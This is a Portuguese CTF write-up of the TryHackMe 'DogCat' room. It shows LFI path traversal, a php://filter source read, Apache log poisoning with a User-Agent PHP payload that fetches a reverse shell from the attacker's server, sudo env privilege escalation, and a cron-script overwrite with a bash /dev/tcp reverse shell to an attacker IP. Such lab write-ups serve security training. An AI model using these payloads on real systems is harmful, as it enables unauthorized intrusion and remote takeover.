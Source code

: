 # TryHackMe - DogCat

**Índice**

Lista de verificação:

- [ ]  Iniciar VPN TryHackMe
- [ ]  Varredura de Portas com “nmap -A [IP]”.
- [ ]  Verificar código-fonte da página.
- [ ]  Verificar se PHP está em execução.
- [ ]  Verificar a necessidade de encodar URL para RCE ou LFI
- [ ]  Verificar requisições no BurpSuite

## Sobre

Resolução da Room DogCat - TryHackMe.

## Informações

[https://tryhackme.com/room/dogcat](https://tryhackme.com/room/dogcat)

## Execução

Iniciamos um PortScan com `nmap -A [IP]` no HOST:

![Captura de tela de 2023-06-28 21-03-29.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F169bdeda-d689-4b77-a7d6-cb9103324a11%2FCaptura_de_tela_de_2023-06-28_21-03-29.png?table=block&id=66e67b11-e308-4770-b1d5-46bbe43a1460&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1520&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

O site contém 2 botões “**A dog”** e “**A cat**”, e o código-fonte aparentemente executa um arquivo PHP de acordo com o botão pressionado.

![Captura de tela de 2023-06-28 21-06-49.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F913816dc-a55e-46bb-835b-98bfc645b5ad%2FCaptura_de_tela_de_2023-06-28_21-08-21.png?table=block&id=3d4dc508-7262-4f73-be26-6e15ca6eefb4&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1870&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

![Captura de tela de 2023-06-28 21-08-21.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F913816dc-a55e-46bb-835b-98bfc645b5ad%2FCaptura_de_tela_de_2023-06-28_21-08-21.png?table=block&id=3d4dc508-7262-4f73-be26-6e15ca6eefb4&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1870&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

Nesse caso podemos fazer um “teste” PHP adicionando um carácter no ***`/?view=dog`***

![Captura de tela de 2023-06-28 21-11-11.png](https://file.notion.so/f/s/ea73b92c-85a6-4ccb-9f55-95f28ec670a7/Captura_de_tela_de_2023-06-28_21-11-11.png?id=e3bb71c1-6020-4e85-a28f-6c7ad482ba91&table=block&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&expirationTimestamp=1692972000000&signature=Fafoz6dAZtpHKPSgEAPVz4PJEAYXp4VMah59eHXVMAM&downloadName=Captura+de+tela+de+2023-06-28+21-11-11.png)

Como esperado ele diz não poder encontrar o arquivo ***dog*.php*** para executar a função *`include()`.*

Aqui podemos esperar um possível RCE. Podemos usar a URL para navegar e executar arquivos PHP, para teste podemos tentar fazer a mesma coisa para ***cat*** e ***index***. Nesse caso específico, “dog” é como se fosse um argumento necessário para “bypassar” a função `include()`, para depois fazermos o “parse” utilizando **`/../`**

> *No contexto da exploração de uma vulnerabilidade RCE/LFI, pode-se usar 
"http://<ip>/?view=php://filter/read=convert.base64-encode/resource=dog/../index" para contornar restrições impostas pelo site.*
> 

No caso do ***`index.php` ,***durante a requisição ele espera alguma constante a ser declarada.

![Captura de tela de 2023-06-28 21-23-27.png](https://file.notion.so/f/s/10819adb-773c-4b9f-85c5-8c0572132cc3/Captura_de_tela_de_2023-06-28_21-23-27.png?id=1ce05873-9af0-45ea-946c-b3b1f8c3125e&table=block&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&expirationTimestamp=1692972000000&signature=GWvz-qH4lcICrYvYaESIPKW6jOFKAB64rAu54k_TUYw&downloadName=Captura+de+tela+de+2023-06-28+21-23-27.png)

![Captura de tela de 2023-06-28 21-23-36.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_21-23-36.png)

Sabemos que conseguimos executar arquivos .php em `/var/www/html/` , sendo assim podemos tentar fazer a leitura de alguns arquivos do sistema/servidor.

Para conseguimos ter acesso a algum arquivo, temos que ter em mente a navegação via terminal por diretorios linux. Sabemos que nossa base é `?view=dog/../`  e estamos no diretório `/var/www/html/` então usamos `../../../` para irmos ao diretório raíz (/) , e a partir daí buscar nosso arquivo.

Após escolher o arquivo (aí tem que saber a localização de cabeça rs), pedimos para que seja escrito na tela com o **&ext=**  `[IP]/?view=dog/../../../../etc/passwd&ext`= .

### Porque **ext**?

Após verificar o `**dog.php**` usando filtro para imprimir o código em **BASE64** `?view=php://filter /convert.base64-encode/resource=` em `dog/../index` podemos verificar o seguinte código:

---

```php
<!DOCTYPE HTML>
<html>
<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>
<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>
    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>
</html>
```

---

No trecho `$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';` podemos ver que é adicionado **.php** ao final do que estiver na string mencionada. Nesse caso ao digitar **dog&ext,** estamos querendo dizer **dog.php**

---

![Captura de tela de 2023-06-28 22-11-09.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_22-11-09.png)

---

Sabendo que conseguimos ler arquivos, podemos fazer um **LogPoison** ([link](https://rodolfomarianocy.medium.com/aprenda-a-fazer-log-poisoning-em-ssh-e-apache-via-lfi-65f08a2f7d1d)).

> *Trata-se de sujar logs de serviços e através de RCE e forçar uma execução e uma resposta vinda do servidor, como uma execução de código remoto que vai interpretar e executar nosso código PHP malicioso.*
> 

Em primeiro lugar, sabemos que o serviço WEB que roda neste host é um **Apache**, por padrão o diretório de logs fica localizado em `var/log/apache2/access.log` , e para acessar podemos usar `[IP]/?view=dog/../../../../../../../var/log/apache2/access.log&ext=` 

---

![Captura de tela de 2023-06-28 22-40-58.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_22-40-58.png)

---

Agora podemos testar o log, dando um comando qualquer em `?view=` . Neste caso digitei **ls -la** e observando o código-fonte da página, podemos ver uma nova requisição armazenada no `access.log` .

![Captura de tela de 2023-06-29 19-58-33.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_19-58-33.png)

O log armazena IP, DT/HR, o tipo de requisição, caminho, e o **UserAgent**. Aqui podemos injetar um arquivo PHP malicioso para obtermos uma SHELL Reversa. ([link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php))

Após configurar devidamente o shell.php, inicio um serviço “WebHTTP” utilizando o Python3:
`sudo python3 -m http.server 80`

E utilizando o BurpSuite, altero o **UserAgent** da requisição do Access.log para o seguinte:

`<?php file_put_contents('shell.php',file_get_contents('http://[IP]/shell.php'))?>`

![Captura de tela de 2023-06-29 20-17-40.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-17-40.png)

---

Nesse momento nosso serviço Web confirma o acesso ao arquivo.

![Captura de tela de 2023-06-29 20-38-22.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-38-22.png)

Agora é só obter a Shell Reversa com o host. Podemos fazer isso usando o NetCat: 

`nc -nlvp 5555`

E pronto! Temos acesso ao Host com sucesso!

![Captura de tela de 2023-06-29 20-40-28.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-40-28.png)

Utilizando o comando `find / -name **flag** 2>/dev/null` , podemos começar a encontrar as Flags.

![Captura de tela de 2023-06-29 20-47-12.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-47-12.png)

Ok, agora vamos ver o que nosso usuário pode executar …

![Captura de tela de 2023-06-29 20-50-26.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-50-26.png)

Ótimo! podemos executar o env como superusuario sem a necessidade de senha. Para facilitar, podemos acessar o GTFOBins ([https://gtfobins.github.io/](https://gtfobins.github.io/)) para pesquisar os comandos.

![Captura de tela de 2023-06-29 20-52-39.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-52-39.png)

---

![Captura de tela de 2023-06-29 20-53-37.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-53-37.png)

Finalmente! Como ROOT tudo fica mais fácil. Agora podemos terminar nossa ROOM encontrando as FLAGS restantes usando o mesmo comando que antes (`find / -name **flag** 2>/dev/null`), só que agora como ROOT.

### E a Flag4?!

Boa pergunta rs

Precisei colar de um Walkthrough do canal “[Optional](https://www.youtube.com/watch?v=zGDbi15Jkqw)” no YouTube, e lá ele mostra um arquivo em `/opt/backups/backup.tar`

Pelo que entendi esse é um container Docker. E pela última modificação do arquivo, ele deve ser executado frequentemente. Então seguindo os passos do “Optional”, como ROOT, sobrescrevi o `backup.sh` usando o comando echo e tive que aguardar uns minutinhos:

`echo -e "#!/bin/bash\nbash -i >& /dev/tcp/10.13.5.224/5555 0>&1" > backup.sh`

![Captura de tela de 2023-06-29 21-25-30.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_21-25-30.png)

---

E por fim a Flag4 !

---

![Captura de tela de 2023-06-29 21-26-07.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_21-26-07.png)

---

Obrigado por ler, espero que tenha aprendido alguma coisa :)
